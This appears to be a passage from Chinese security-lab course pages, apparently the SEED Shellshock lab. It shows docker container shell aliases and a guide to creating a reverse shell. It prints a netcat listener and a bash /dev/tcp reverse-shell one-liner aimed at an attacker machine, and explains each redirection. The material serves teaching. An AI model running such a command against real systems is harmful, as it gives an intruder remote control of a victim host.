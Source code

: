 // 上述 Compose 命令的别名
$ dcbuild       # docker-compose build 的别名
$ dcup          # docker-compose up 的别名
$ dcdown        # docker-compose down 的别名</code></pre>
<p>所有容器都在后台运行。 要在容器上运行命令，我们通常需要获得容器里的 Shell 。 首先需要使用 docker ps 命令找出容器的 ID ， 然后使用 docker exec 在该容器上启动 Shell 。 我们已经在 .bashrc 文件中为这两个命令创建了别名。</p>
<pre class="language-markup"><code>$ dockps        // docker ps --format "{{.ID}}  {{.Names}}" 的别名
$ docksh &lt;id&gt;   // docker exec -it &lt;id&gt; /bin/bash 的别名

// 下面的例子展示了如何在主机 C 内部得到 Shell
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#

// 注: 如果一条 docker 命令需要容器 ID，你不需要
//     输入整个 ID 字符串。只要它们在所有容器当中
//     是独一无二的，那只输入前几个字符就足够了。</code></pre>
<p>如果你在设置实验环境时遇到问题，可以尝试从手册的“Miscellaneous Problems”部分中寻找解决方案。</p>
</div>
</div>
</div>

========================================
文件路径: .\Shellshock攻击实验\指导：创建反向Shell\summary.html
========================================

<p>反向 shell 的关键思想是将 shell 的标准输入、输出和错误设备重定向到网络连接，这样 shell 就会从该连接获取输入，并将输出也发送回该连接。在连接的另一端运行的是攻击者的程序，这个程序只是显示来自另一端的 shell 程序打印出来的内容，并将攻击者键入的内容通过网络连接发送给 shell 程序。</p>
<p>攻击端常用的一个程序是 netcat，如果用 "-l" 选项，则会运行一个监听指定端口的 TCP 服务器。该服务器程序会打印客户端发送来的内容，并把用户输入的内容发到客户端。在下面的实验中，我们将使用 netcat（简写为 nc）来监听 9090 端口。我们先仅关注第一行。 </p>
<pre class="language-markup"><code>Attacker(10.0.2.6):$ nc -nv -l 9090
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ 
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 10.0.2.5  netmask 255.255.255.0  broadcast 10.0.2.255
        ...</code></pre>
<p>上述的 nc 命令会阻塞，等待连接。我们在服务器（10.0.2.5）上直接运行以下 bash 程序，这是模拟攻击者通过漏洞在服务器上做的事。这个 bash 命令将与攻击者机器的 9090 的端口建立一个 TCP 连接，从而创建一个反向 shell。我们可以从上述结果中看到 shell 程序的提示符，这表明 shell 程序正在服务器上运行。我们可以通过键入 ifconfig 命令来验证 IP 地址确实为 10.0.2.5，这是属于服务器的 IP 地址。以下是 bash 命令：</p>
<pre class="language-markup"><code>Server(10.0.2.5):$ /bin/bash -i &gt; /dev/tcp/10.0.2.6/9090 0&lt;&amp;1 2&gt;&amp;1</code></pre>
<p>上述命令比较复杂，我们在下面进行详细的解释：</p>
<ul>
<li>
<p>“/bin/bash -i”: 选项 i 表示这是交互模式，意味着 shell 程序会提供 shell 提示符。</p>
</li>
<li>
<p>“&gt; /dev/tcp/10.0.2.6/9090”: 这使得 shell 程序的标准输出设备 stdout 被重定向到一个指定的 TCP 连接。在 unix 系统中，stdout 的文件描述符为 1。</p>
</li>
<li>
<p>“0&lt;&amp;1”: 文件描述符 0 表示标准输入设备 stdin。此选项告诉系统使用标准输出设备作为标准输入设备。由于标准输出已经被重定向到 TCP 连接，因此标准输入也用同一个 TCP 连接。</p>
</li>
<li>
<p>“2&gt;&amp;1”: 文件描述符 2 表示标准错误 stderr。这使得错误输出也被重定向到同一个 TCP 连接。</p>
</li>
</ul>
